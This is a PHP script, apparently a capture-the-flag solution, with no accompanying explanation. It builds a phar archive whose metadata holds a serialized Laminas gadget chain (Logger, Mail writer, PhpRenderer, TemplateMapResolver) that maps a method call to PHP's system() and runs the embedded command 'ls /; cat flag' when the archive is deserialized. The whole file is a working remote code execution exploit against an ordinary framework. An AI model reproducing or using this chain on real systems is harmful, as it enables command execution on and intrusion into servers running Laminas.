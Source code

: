 ```php
<?php
	namespace Laminas\Log {
		
		class Logger {
			
			protected $writers;
			function __construct(){
				$this->writers = [new \Laminas\Log\Writer\Mail()];
			}
		}
	}

	namespace Laminas\Log\Writer {
		
		abstract class AbstractWriter {}
		
		class Mail extends AbstractWriter {

			protected $eventsToMail = ["ls /; cat flag"];
			protected $subjectPrependText = null;
			protected $mail;
			function __construct(){
				$this->mail = new \Laminas\View\Renderer\PhpRenderer();
			}
		}
	}

	namespace Laminas\View\Renderer {

		class PhpRenderer {

			private $__helpers;
			function __construct() {

				$this->__helpers = new \Laminas\View\Resolver\TemplateMapResolver();
			}
		}
	}

	namespace Laminas\View\Resolver{

		class TemplateMapResolver{

			protected $map = ["setBody"=>"system"];
		}
	}


	namespace {

	    $phar = new Phar("phar.phar");
	    $phar->startBuffering();
	    $phar->setStub("<?php __HALT_COMPILER(); ?>");
	    $object = new \Laminas\Log\Logger();
	    $phar->setMetadata($object);
	    $phar->addFromString("h3rmesk1t.txt", "h3rmesk1t");
	    $phar->stopBuffering();
	}
?>
```

